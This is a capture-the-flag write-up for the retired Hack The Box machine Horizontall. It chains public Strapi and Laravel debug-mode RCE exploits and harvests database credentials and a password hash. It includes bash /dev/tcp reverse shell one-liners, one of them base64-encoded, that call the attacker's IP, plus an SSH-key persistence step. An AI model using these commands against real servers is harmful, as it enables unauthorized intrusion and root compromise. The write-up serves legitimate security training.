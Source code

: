 # Horizontall

This is the write-up for the box Horizontall that got retired at the 5th February 2022.
My IP address was 10.10.14.11 while I did this.

Let's put this in our hosts file:
```markdown
10.10.11.105    horizontall.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/horizontall.nmap 10.10.11.105
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ee774143d482bd3e6e6e50cdff6b0dd5 (RSA)
|   256 3ad589d5da9559d9df016837cad510b0 (ECDSA)
|_  256 4a0004b49d29e7af37161b4f802d9894 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The web service automatically redirects to the hostname _horizontall.htb_ and is a static website without much information.

There is a JavaScript file _/js/app.c68eb462.js_ that may contain interesting information and when searching for the hostname, there is indeed a a call to a subnet:
```
http://api-prod.horizontall.htb/reviews
```

After adding the hostname _api-prod.horizontall.htb_ to our _/etc/hosts_ file, it can be accessed and the website has the title _"Welcome to your API"_.
The response header contains the value _"X-Powered-By: Strapi <strapi.io>"_ which means that the API is run with the Open-Source CMS [Strapi](https://strapi.io/).

Searching for hidden directories with **Gobuster**:
```
gobuster dir -u http://api-prod.horizontall.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

It finds the following directories:
- _/users_
  - HTTP status code _403 Forbidden_
- _/reviews_
  - Three review comments from customers in JSON format
- _/admin_
  - Forwards to _/admin/auth/login_ which is the login page of **Strapi**

Searching for public exploits for **Strapi**:
```
searchsploit strapi
```
```
Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE) (Unauthenticated)
```

The function _check_version_ in the exploit code shows that the version can be found on _/admin/init_.
It has the version _"3.0.0-beta.17.4"_ which should be vulnerable to this exploit.
```
python3 50239.py http://api-prod.horizontall.htb/
```
```
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit

[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
```

After running the exploit, it will start a command line to send requests to the API, but it is also possible to login with the provided credentials.

Testing command execution with `curl`:
```
curl 10.10.14.11:8000
```

My web server received a request, so command execution is working to gain a reverse shell:
```
bash -c 'bash -i >& /dev/tcp/10.10.14.11/9001 0>&1'
```

The command works and the listener on my IP and port 9001 starts a reverse shell as the user _strapi_.

## Privilege Escalation

The directory of the web service is in _/opt/strapi/myapi/_.

Searching for passwords in the _config_ directory:
```
grep -Ri password .
```

The file _environments/development/database.json_ has credentials for a MySQL database:
```
(...)
"client": "mysql",
"database": "strapi",
"host": "127.0.0.1",
"port": 3306,
"username": "developer",
"password": "#J!:F9Zt2u"
```

Accessing the database:
```
mysql -u developer -p
```

Enumerating database information:
```
mysql> show databases;
mysql> use strapi;

mysql> show tables;

mysql> select * from strapi_administrator;
```
```
+----+----------+-----------------------+--------------------------------------------------------------+
| id | username | email                 | password                                                     |
+----+----------+-----------------------+--------------------------------------------------------------+
|  3 | admin    | admin@horizontall.htb | $2a$10$4yPgwjBYUhPVKbobt4D4nOTikInAX/Wt3XUgvnnXLUSa84p8Z8xMO |
+----+----------+-----------------------+--------------------------------------------------------------+
```

There is a password hash for the user _admin_, which can be potentially cracked, but lets enumerate the services on the box more.

### Enumerating the Box

When checking the listening ports with `ss -lnpt`, it shows that port 8000 is listening on localhost.
To forward the port, it is recommended to start a real SSH connection to use SSH features for port forwarding.

Creating SSH key:
```
ssh-keygen -f strapi.key
```

Creating _.ssh_ directory and adding new SSH key into _authorized_keys_:
```
mkdir .ssh

cd .ssh

echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQ(...) > authorized_keys

chmod 600 authorized_keys
```

Connecting to the box via SSH and forwarding port 8000 to port 8001 on our local client:
```
ssh -i strapi.key -L 8001:127.0.0.1:8000 strapi@10.10.11.105
```

When browsing to 127.0.0.1 on port 8001, it shows that it is hosting the PHP framework [Laravel](https://laravel.com/) and in the right corner it shows that it is version _7.4.18_.

Searching for hidden directories with **Gobuster**:
```
gobuster dir -u http://127.0.0.1:8001 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

It finds the path _/profiles_ which shows a very detailed error message and it becomes clear that the service is running in **debug mode**.

There is a public **Remote Code Execution** exploit for **Laravel** in debug mode:
```
searchsploit laravel debug
```
```
Laravel 8.4.2 debug mode - Remote code execution
```

Base64-encoding a reverse shell command:
```
echo 'bash -i >& /dev/tcp/10.10.14.11/9002 0>&1' | base64
```

Executing the exploit with the encoded reverse shell command:
```
python3 49424.py http://127.0.0.1:8001 /home/developer/myproject/storage/logs/laravel.log 'echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMS85MDAyIDA+JjEK | base64 -d | bash'
```

After executing the script, it will exploit the vulnerability and the listener on my IP and port 9002 starts a reverse shell as root!
